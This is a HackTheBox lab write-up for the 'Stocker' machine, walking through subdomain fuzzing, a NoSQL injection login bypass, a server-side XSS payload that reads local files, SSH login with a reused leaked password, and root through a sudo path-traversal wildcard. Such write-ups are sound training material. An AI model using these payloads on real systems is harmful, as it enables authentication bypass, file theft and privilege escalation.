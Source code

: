 ```yaml
---
layout: post
title:  "Writeup of Stocker (HackTheBox)"
date:   2023-06-30 16:28:53 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox stocker nosql injection 
---
```


# Discovery
There isn't much on the main page **stocker.htb**, although there is one name:

```
Angoose Garden, Head of IT at Stockers Ltd.
```

It might be useful for bruteforcing credentials, or **Angoose** is a hint about **Mongoose**.

`ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" -u http://stocker.htb -fs 178`

There is a subdomain **dev.stocker.htb**.

It's some **Express** app with a login page.

```
X-Powered-By: Express
```

# Injection

There is NoSQL injection in **dev.stocker.htb/login**

```
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Type: application/json

{
    "username": { "$ne": null },
    "password": { "$ne": null }
}
```

# API

By first making a `POST /api/order` with:

```json
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "<script>document.body.append(window.location)</script>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": 76,
      "currentStock": 15,
      "__v": 0,
      "amount": 1
    }
  ]
}
```

We get:

```json
{"success":true,"orderId":"648317f7f5c3637ed798f97c"}
```

Then `GET /api/po/648317f7f5c3637ed798f97c` (returned id):

```
file:///var/www/dev/pos/648317f7f5c3637ed798f97c.html
```

**It's [server-side XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)!**

# Reading files

**We can read local files using:**

`<script>x=new XMLHttpRequest;x.onload=function(){document.body.innerHTML += btoa(this.responseText).replace(/(.{20})/g, '$1<br />')};x.open('GET','file:///etc/passwd');x.send();</script>`

- /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

- /var/www/dev/index.js

```
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

# SSH - angoose

`ssh angoose@10.10.11.196`

**angoose:IHeardPassphrasesArePrettySecure** works!

```
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

`sudo -l`

```
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

`ls -la /usr/local/scripts`

```
-rwxr-x--x  1 root root  245 Dec  6  2022 creds.js
-rwxr-x--x  1 root root 1625 Dec  6  2022 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6  2022 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6  2022 node_modules
-rwxr-x--x  1 root root 1337 Dec  6  2022 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6  2022 schema.js
```

# Root

**RCE as root** - can execute any script by running:

`sudo /usr/bin/node /usr/local/scripts/../../../tmp/script.js`

By executing a reverse shell *(rev.js)* we get root.

`root.txt: <redacted>`

